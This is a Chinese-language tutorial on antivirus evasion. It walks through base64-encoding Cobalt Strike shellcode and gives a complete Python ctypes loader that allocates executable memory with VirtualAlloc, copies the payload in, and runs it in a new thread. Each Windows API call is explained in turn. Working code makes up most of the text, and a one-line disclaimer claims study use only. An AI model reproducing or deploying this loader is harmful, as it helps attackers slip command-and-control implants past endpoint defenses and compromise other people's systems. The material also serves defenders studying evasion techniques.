


# 免杀实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 加载器



**加载器 + base64**

cs 生成 Python shellcode x64



base64 加密 shellcode
```py
# coding=utf-8
import base64

shellcode = open('payload.py')
shellcode = shellcode.read()
s1=shellcode.find("\"")+1
s2=shellcode.rfind("\"")
shellcode= shellcode[s1:s2]

base64_shellcode = base64.b64encode(shellcode.encode('UTF-8'))
with open('base64.txt', 'wb') as shell:
    shell.write(base64_shellcode)
print(base64_shellcode)

```

添加到加载器,加载器的大致原理就是申请一块内存，将代码字节存入该内存，然后开始运行该内存储存的程序，并让该程序一直运行下去。
```py
import base64
import codecs
import ctypes

shellcode = ""
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

- ctypes 库

    python 的 ctypes 模块是内建，用来调用系统动态链接库函数的模块

    使用 ctypes 库可以很方便地调用 C 语言的动态链接库，并可以向其传递参数。
    ```py
    import ctypes
    ```

- 读取shellcode

    将 shellcode 生成后，使用 base64 编码，后面操作是将代码写入内存，所以需要将代码解码并转为字节类型
    ```py
    shellcode = ""
    shellcode = base64.b64decode(shellcode)
    shellcode = codecs.escape_decode(shellcode)[0]
    shellcode = bytearray(shellcode)
    ```

- 设置返回类型

    我们需要用 VirtualAlloc 函数来申请内存，返回类型必须和系统位数相同

    想在 64 位系统上运行，必须使用 restype 函数设置 VirtualAlloc 返回类型为 ctypes.c_unit64，否则默认的是 32 位
    ```py
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ```

- 申请内存

    调用 VirtualAlloc 函数，来申请一块动态内存区域,VirtualAlloc 函数原型和参数如下：
    ```py
    LPVOID VirtualAlloc{
        LPVOID lpAddress,       # 要分配的内存区域的地址
        DWORD dwSize,           # 分配的大小
        DWORD flAllocationType, # 分配的类型
        DWORD flProtect         # 该内存的初始保护属性
    };
    ```

    申请一块内存可读可写可执行
    ```py
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
    # ctypes.c_int(0) 是 NULL，系统将会决定分配内存区域的位置，并且按 64KB 向上取整
    # ctypes.c_int(len(shellcode)) 以字节为单位分配或者保留多大区域
    # ctypes.c_int(0x3000) 是 MEM_COMMIT(0x1000) 和 MEM_RESERVE(0x2000) 类型的合并
    # ctypes.c_int(0x40) 是权限为 PAGE_EXECUTE_READWRITE 该区域可以执行代码，应用程序可以读写该区域。
    ```

- 将 shellcode 载入内存

    调用 RtlMoveMemory 函数，此函数从指定内存中复制内容至另一内存里。RtlMoveMemory 函数原型和参数如下:
    ```py
    RtlMoveMemory(Destination,Source,Length);
    Destination     # 指向移动目的地址的指针。
    Source          # 指向要复制的内存地址的指针。
    Length          # 指定要复制的字节数。
    ```

    从指定内存地址将内容复制到我们申请的内存中去，shellcode 字节多大就复制多大
    ```py
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(
        ctypes.c_uint64(ptr),
        buf,
        ctypes.c_int(len(shellcode))
    )
    ```

- 创建进程

    调用 CreateThread 将在主线程的基础上创建一个新线程, CreateThread 函数原型和参数如下：
    ```py
    HANDLE CreateThread(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,   # 线程安全属性
        SIZE_T dwStackSize,                         # 置初始栈的大小，以字节为单位
        LPTHREAD_START_ROUTINE lpStartAddress,      # 指向线程函数的指针
        LPVOID lpParameter,                         # 向线程函数传递的参数
        DWORD dwCreationFlags,                      # 线程创建属性
        LPDWORD lpThreadId                          # 保存新线程的id
    )
    ```

    创建一个线程从 shellcode 放置位置开始执行
    ```py
    handle = ctypes.windll.kernel32.CreateThread(
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.c_uint64(ptr),
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.pointer(ctypes.c_int(0))
    )
    # lpThreadAttributes 为 NULL 使用默认安全性
    # dwStackSize 为 0，默认将使用与调用该函数的线程相同的栈空间大小
    # lpStartAddress 为 ctypes.c_uint64(ptr)，定位到申请的内存所在的位置
    # lpParameter 不需传递参数时为 NULL
    # dwCreationFlags 属性为 0，表示创建后立即激活
    # lpThreadId 为 ctypes.pointer(ctypes.c_int(0)) 不想返回线程 ID, 设置值为 NULL
    ```

- 等待线程结束

    调用 WaitForSingleObject 函数用来检测线程的状态, WaitForSingleObject 函数原型和参数如下：
    ```py
    DWORD WINAPI WaitForSingleObject(
        __in HANDLE hHandle,        # 对象句柄。可以指定一系列的对象
        __in DWORD dwMilliseconds   # 定时时间间隔
    );
    ```

    等待创建的线程运行结束
    ```py
    ctypes.windll.kernel32.WaitForSingleObject(
        ctypes.c_int(handle),
        ctypes.c_int(-1)
    )
    ```

    这里两个参数，一个是创建的线程，一个是等待时间
    - 当线程退出时会给出一个信号，函数收到后会结束程序。
    - 当时间设置为0或超过等待时间，程序也会结束，所以线程也会跟着结束。
    正常的话我们创建的线程是需要一直运行的，所以将时间设为负数，等待时间将成为无限等待，程序就不会结束。

---

**Source & Reference**
- [免杀 - shellcode简单混淆BypassAv](https://mp.weixin.qq.com/s/LkOmSNw7YgD7yfXkIrofHQ)
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
